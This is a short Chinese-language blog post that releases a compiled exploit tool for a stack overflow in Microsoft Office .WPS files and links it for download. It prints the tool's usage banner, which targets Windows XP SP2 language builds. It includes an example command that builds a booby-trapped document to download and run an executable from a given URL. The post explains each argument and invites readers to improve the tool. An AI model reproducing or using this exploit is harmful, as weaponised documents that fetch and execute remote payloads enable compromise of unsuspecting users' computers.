 编译好的程序俺也放上来了，用法很简单：

引用F: oolsexploit>wps2

Microsoft Office .WPS Stack Overflow
Adam Walker (c) 2007
Modified by Mika[EST]

[+] Targets:
(1) Windows XP SP2 ntdll.dll DE jmpesp
(2) Windows XP SP2 ntdll.dll CN&TW jmpesp
Usage: wps.exe <target> <file> <URL>
.Ex:wps.exe 2 test.wps http://www.0x520.cn/test.exe

wps.exe 目标系统语言类型 要生成的文件 要下载执行的url地址

OK~~简单吧，欢迎大家继续修改加强！再次对帮助过俺的人表示感谢！

[wps.rar](/blog/download.asp?id=48(18.54 KB)

